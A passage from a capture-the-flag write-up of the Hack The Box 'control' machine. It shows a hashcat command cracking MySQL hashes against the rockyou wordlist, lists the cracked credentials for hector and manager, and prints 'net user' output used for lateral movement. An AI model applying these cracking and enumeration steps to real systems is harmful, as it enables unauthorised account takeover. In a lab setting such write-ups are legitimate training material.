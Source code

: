 <img src="/home/dumb/Documents/learn-notes/htb-writeups/control/control-initial-shell.png" alt="control-initial-shell" style="zoom:75%;" />



## Crack Hashes



Remember hashes we get from **msql injection**.  After ckack them we recovery one password.  

```powershell
PS D:\tools\hashcat-5.1.0> .\hashcat64.exe -m 300 --user D:\hackthebox\control\mysql-hash.txt D:\SecLists-master\Passwords\Leaked-Databases\rockyou.txt --show
hector:0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector
```

Recap all credentials we have: 

```bash
hector:l33th4x0rhector
manager:l3tm3!n
```



## Lateral Movement



After some enumeration we discovery that user **hector** is in   **Remote Management System**  group. 

```powershell
PS C:\inetpub\wwwroot> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
Hector                   WDAGUtilityAccount
The command completed with one or more errors.

PS C:\inetpub\wwwroot> net user hector
User name                    Hector
Full Name                    Hector
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/1/2019 12:27:50 PM
Password expires             Never
Password changeable          11/1/2019 12:27:50 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/7/2020 9:47:14 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users
Global Group memberships     *None
The command completed successfully.

```